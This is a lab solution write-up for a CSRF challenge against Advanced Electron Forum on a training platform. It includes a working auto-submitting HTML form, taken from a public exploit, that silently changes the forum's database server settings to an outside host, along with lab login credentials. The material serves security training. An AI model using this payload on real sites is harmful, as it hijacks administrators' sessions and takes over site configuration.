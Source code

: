﻿![](Aspose.Words.b6e4761b-ce1e-4d24-82de-b26630af62d6.001.png)

![](Aspose.Words.b6e4761b-ce1e-4d24-82de-b26630af62d6.002.png)
<table><tr><th colspan="1" valign="top"><b>Name</b> </th><th colspan="1" valign="top">Advanced Electron Forum </th></tr>
<tr><td colspan="1" rowspan="2" valign="top"><b>URL</b> </td><td colspan="1" valign="bottom"><https://www.attackdefense.com/challengedetails?cid=323>  </td></tr>
<tr><td colspan="1"></td></tr>
<tr><td colspan="1"><b>Type</b> </td><td colspan="1">Real World Webapps : CSRF </td></tr>
</table>

**Important Note:** This document illustrates all the important steps required to complete this lab. This  is  by  no  means  a  comprehensive  step-by-step  solution for this exercise. This is only provided as a reference to various commands needed to complete this exercise and for your further research on this topic. Also, note that the IP addresses and domain names might be different in your lab.  

**Solution:**  

**Step 1:** Inspect the web application. ![ref1]

![](Aspose.Words.b6e4761b-ce1e-4d24-82de-b26630af62d6.004.jpeg)

**Step 2:** Search on google “advanced electron forum exploit” and look for publicly available exploits. 

![](Aspose.Words.b6e4761b-ce1e-4d24-82de-b26630af62d6.005.jpeg)

The exploit db link contains the HTML script required to exploit the vulnerability. **Exploit DB Link: <https://www.exploit-db.com/exploits/39261>**  ![ref1]

![](Aspose.Words.b6e4761b-ce1e-4d24-82de-b26630af62d6.006.jpeg)**Step 3:** The user has to authenticate in order to exploit the vulnerability. The login credentials are provided in the challenge description. Navigate to the login portal and log into the web application 

**URL:** http://nxkibhlaxp4mpr6dhj7xq8aza.mumbaix.attackdefenselabs.com/index.php?act=login 

![](Aspose.Words.b6e4761b-ce1e-4d24-82de-b26630af62d6.007.jpeg)

Credentials: 

- **Username:** admin 
- **Password**: password1 

Admin Dashboard: ![ref1]

**Step 4:** Copy the HTML script provided at exploit db link and update the URL in the request.  ![](Aspose.Words.b6e4761b-ce1e-4d24-82de-b26630af62d6.008.jpeg)**HTML Script:** 

<form id="DOOM" accept-charset="ISO-8859-1" action="http://nxkibhlaxp4mpr6dhj7xq8aza.mumbaix.attackdefenselabs.com/index.php?act=admin&adact =conpan&seadact=mysqlset" 

method="post" name="mysqlsetform"> 

<input type="hidden" name="server" value="hyp3rlinx.altervista.org" /> 

<input type="hidden" name="user" value="hyp3rlinx" /> 

<input type="hidden" name="password" value="DESTROYED" /> 

<input type="hidden" name="database" value="AEF" /> 

<input type="hidden" name="dbprefix" value="aef\_" /> <script>document.getElementById('DOOM').submit()</script> 

</form> 

Save the HTML script as csrf.html ![ref1]

![](Aspose.Words.b6e4761b-ce1e-4d24-82de-b26630af62d6.009.jpeg)

**Step 5:** Open the HTML script in the same browser session. 

The exploit was unsuccessful as the csrf request was not processed because of login pop-up ![](Aspose.Words.b6e4761b-ce1e-4d24-82de-b26630af62d6.010.jpeg)**Step 6:** Login with the credentials and open the csrf.html again. 

![](Aspose.Words.b6e4761b-ce1e-4d24-82de-b26630af62d6.011.jpeg)

The CSRF was successful and as a result the db credentials were changed.  ![ref1]

**References:**  

1. Advanced Electron Forum (<http://www.anelectron.com/>)  ![ref1]
1. Advanced Electron Forum 1.0.9 - Cross-Site Request Forgery (<https://www.exploit-db.com/exploits/39261/>)  

[ref1]: Aspose.Words.b6e4761b-ce1e-4d24-82de-b26630af62d6.003.png
